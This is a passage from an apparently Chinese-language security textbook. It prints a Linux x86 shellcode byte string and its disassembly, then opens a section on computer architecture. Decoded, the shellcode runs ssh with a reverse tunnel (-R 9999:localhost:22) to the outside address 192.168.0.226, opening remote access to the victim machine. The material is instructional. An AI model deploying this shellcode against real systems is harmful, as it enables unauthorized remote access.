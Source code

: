 ```
"\x31\xc0\x50\x68\x2e\x32\x32\x36\x68\x38\x2e\x30\x30\x68\x32\x2e\x31\x36""\x66\x68\x31\x39\x89\xe6\x50\x68\x74\x3a\x32\x32\x68\x6c\x68\x6f\x73\x68""\x6c\x6f\x63\x61\x68\x39\x39\x39\x3a\x66\x68\x30\x39\x89\xe5\x50\x66\x68""\x2d\x52\x89\xe7\x50\x68\x2f\x73\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75""\x73\x72\x89\xe3\x50\x56\x55\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
```

这是 Shellcode 的汇编语言：

```
xor    %eax,%eax
push   %eax
pushl  $0x3632322e
pushl  $0x30302e38
pushl  $0x36312e32
pushw  $0x3931
movl   %esp,%esi
push   %eax
push   $0x32323a74
push   $0x736f686c
push   $0x61636f6c
push   $0x3a393939
pushw  $0x3930
movl   %esp,%ebp
push   %eax
pushw  $0x522d
movl   %esp,%edi
push   %eax
push   $0x6873732f
push   $0x6e69622f
push   $0x7273752f
movl   %esp,%ebx
push   %eax
push   %esi
push   %ebp
push   %edi
push   %ebx
movl   %esp,%ecx
mov    $0xb,%al
int    $0x80
```

# 计算机体系结构

让我们了解一下计算机体系结构（英特尔 x64）中的一些概念。计算机的主要部件如下图所示：

![](img/00017.jpeg)
